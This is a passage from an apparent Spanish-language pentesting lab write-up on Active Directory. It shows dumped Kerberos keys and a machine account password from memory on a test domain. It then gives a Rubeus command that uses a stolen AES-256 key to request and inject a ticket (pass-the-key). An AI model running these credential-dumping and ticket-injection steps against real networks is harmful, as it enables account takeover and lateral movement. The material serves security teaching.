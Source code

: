 ```
SID               : S-1-5-96-0-0

         * Username : WS01$
         * Domain   : corp.local
         * Password : W2UkIN'=^U\uRLwnNQE<-f]K_v3rD5"'uhN0A=$lN"Wuekd4JVo>l_lP\]'6w,)3^]O^QV'.28)OxQAI,:%_hr]84%Ih"dEor\c-"_/oegr"_alxGdYbwwY_
         * Key List :
           des_cbc_md4       b459ebc8222bf5569aeaf1e80cfaadd6acdec1aeeb9d50b068d37cb8883c70f5
           des_cbc_md4       810f872d2ccb9f2dae00f095f34296aa
           des_cbc_md4       afc5c02d936d73808ce716070e883ab8
           des_cbc_md4       afc5c02d936d73808ce716070e883ab8
           des_cbc_md4       afc5c02d936d73808ce716070e883ab8
           des_cbc_md4       afc5c02d936d73808ce716070e883ab8
           des_cbc_md4       afc5c02d936d73808ce716070e883ab8

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WS01$
Domain            : CORP
Logon Server      : (null)
Logon Time        : 21/01/2025 9:14:17
SID               : S-1-5-18

         * Username : ws01$
         * Domain   : CORP.LOCAL
         * Password : (null)
         * Key List :
           des_cbc_md4       9a9fc7447f8fa5521eeef5af175be7af2189392bc0d56f2e7d41e4c15cdad294
           des_cbc_md4       afc5c02d936d73808ce716070e883ab8
           des_cbc_md4       afc5c02d936d73808ce716070e883ab8
           des_cbc_md4       afc5c02d936d73808ce716070e883ab8
           des_cbc_md4       afc5c02d936d73808ce716070e883ab8
           des_cbc_md4       afc5c02d936d73808ce716070e883ab8
```

Aqui veremos las `claves` de cada uno de los usuarios que estan inyectadas en memoria pero del protocolo `kerberos`.

Aqui estamos viendo que nos muestra el mismo `hash` que cuando volcabamos el `NTLM` del `administrador` pero aunque ponga `des_cbc_md4` lo estamos viendo en `rc4` como antes estabamos forzando la autenticacion con `Rubeus` a `kerberos` y el primero de todos que es el mas largo esta cifrado el `hash` original que vemos abajo con el cifrado `AES-256` que es el que utiliza por defecto `kerberos` ya que es mas seguro, pero los 2 tipos de `hashes` los soporta `kerberos` como hemos visto antes.

Si por ejemplo queremos utilizar el `hash` `AES-256` para la herramienta `Rubeus.exe` lo haremos de la siguiente forma:

```powershell
.\Rubeus.exe asktgt /domain:corp.local /user:Administrator /aes256:db7e98b663293b6af815f7c70cc8b33ca68cb4b01039b768e24c1823fdf762cd /ptt
```

Y esto nos volcara la misma informacion que cuando utilizamos el `rc4` con el `hash NTLM`.
